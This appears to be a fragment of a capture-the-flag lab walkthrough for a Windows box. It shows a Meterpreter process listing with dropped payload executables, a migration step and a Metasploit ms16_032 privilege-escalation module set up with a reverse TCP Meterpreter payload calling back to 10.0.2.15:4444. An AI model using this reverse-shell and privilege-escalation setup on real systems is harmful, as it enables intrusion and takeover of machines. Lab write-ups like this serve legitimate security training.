 ```
 548   480   svchost.exe
 580   480   svchost.exe
 624   480   svchost.exe
 656   424   dwm.exe
 668   480   svchost.exe
 700   480   svchost.exe
 756   480   svchost.exe
 808   2536  SAVmeilyavIcOQj.exe      x86   1        OPTIMUM\kostas  C:\Users\kostas\AppData\Local\Temp\radA7039.tmp\SAVmeilyavIcOQj.exe
 820   480   VGAuthService.exe
 832   480   svchost.exe
 888   480   ManagementAgentHost.exe
 952   480   svchost.exe
 1236  480   svchost.exe
 1452  480   dllhost.exe
 1580  480   msdtc.exe
 1688  548   WmiPrvSE.exe
 1896  2316  QaoYGPShfpNN.exe         x86   1        OPTIMUM\kostas  C:\Users\kostas\AppData\Local\Temp\rad98DB5.tmp\QaoYGPShfpNN.exe
 1932  1960  explorer.exe             x64   1        OPTIMUM\kostas  C:\Windows\explorer.exe
 1972  700   taskhostex.exe           x64   1        OPTIMUM\kostas  C:\Windows\System32\taskhostex.exe
 2316  2412  wscript.exe              x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\wscript.exe
 2384  1932  vmtoolsd.exe             x64   1        OPTIMUM\kostas  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 2412  1932  hfs.exe                  x86   1        OPTIMUM\kostas  C:\Users\kostas\Desktop\hfs.exe
 2500  808   cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 2536  2412  wscript.exe              x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\wscript.exe
 2828  2500  conhost.exe              x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe
```
- migration ![Image](/assets/Screenshot 2024-09-07 at 11.05.47 AM.png)
- privesc 
```
- msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > options

Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



```